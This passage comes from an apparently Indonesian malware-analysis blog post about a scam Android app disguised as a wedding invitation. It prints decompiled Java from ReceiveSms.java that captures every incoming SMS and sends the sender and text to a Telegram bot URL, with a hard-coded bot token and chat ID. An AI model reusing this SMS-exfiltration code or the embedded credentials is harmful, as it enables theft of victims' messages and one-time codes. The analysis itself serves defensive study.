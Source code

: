 dapat dilihat si pembuat aplikasi scam tersebut menggunakan service dari `kadio.id` untuk membuat undangan terlihat asli.
Selanjutnya dilakukan analisis terhadap file `ReceiveSms.java`

{% highlight java %}

public void onReceive(Context context, Intent intent) {
        Bundle extras;
        String str = " ";
        if (intent.getAction().equals("android.provider.Telephony.SMS_RECEIVED") && (extras = intent.getExtras()) != null) {
            try {
                Object[] objArr = (Object[]) extras.get("pdus");
                SmsMessage[] smsMessageArr = new SmsMessage[objArr.length];
                int i = 0;
                while (i < smsMessageArr.length) {
                    smsMessageArr[i] = SmsMessage.createFromPdu((byte[]) objArr[i]);
                    String originatingAddress = smsMessageArr[i].getOriginatingAddress();
                    String replace = smsMessageArr[i].getMessageBody().replace("&", "  ").replace("#", str);
                    String replace2 = replace.replace("?", str);
                    Request build = new Request.Builder().url("https://api.telegram.org/bot5931495238:AAHOz7qP80CGo8D8yueYGJv3Rib4xuKSxHQ/sendMessage?parse_mode=markdown&chat_id=5641182991&text= 𝐍𝐨𝐭𝐢𝐟𝐢𝐤𝐚𝐬𝐢 𝐒𝐚𝐝𝐚𝐩 𝐒𝐌𝐒 𝐔𝐧𝐝𝐚𝐧𝐠𝐚𝐧 𝐃𝐚𝐫𝐢  " + originatingAddress + ", 𝐈𝐬𝐢 𝐒𝐌𝐒 : " + replace).build();
                    String str2 = str;
                    Request build2 = new Request.Builder().url("https://api.telegram.org/bot5931495238:AAHOz7qP80CGo8D8yueYGJv3Rib4xuKSxHQ/sendMessage?parse_mode=markdown&chat_id=5641182991&text= 𝐍𝐨𝐭𝐢𝐟𝐢𝐤𝐚𝐬𝐢 𝐒𝐚𝐝𝐚𝐩 𝐒𝐌𝐒 𝐔𝐧𝐝𝐚𝐧𝐠𝐚𝐧 𝐃𝐚𝐫𝐢   " + originatingAddress + ", 𝐈𝐬𝐢 𝐒𝐌𝐒 : " + replace).build();
                    this.client.newCall(build).enqueue(new Callback() {
                        public void onFailure(Call call, IOException iOException) {
                            iOException.printStackTrace();
                        }

                        public void onResponse(Call call, Response response) throws IOException {
                            Log.d("demo", "OnResponse: Thread Id " + Thread.currentThread().getId());
                            if (response.isSuccessful()) {
                                response.body().string();
                            }
                        }
                    });
                    this.client.newCall(build2).enqueue(new Callback() {
                        public void onFailure(Call call, IOException iOException) {
                            iOException.printStackTrace();
                        }

                        public void onResponse(Call call, Response response) throws IOException {
                            Log.d("demo", "OnResponse: Thread Id " + Thread.currentThread().getId());
                            if (response.isSuccessful()) {
                                response.body().string();
                            }
                        }
                    });
                    i++;
                    str = str2;
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }

{% endhighlight %}
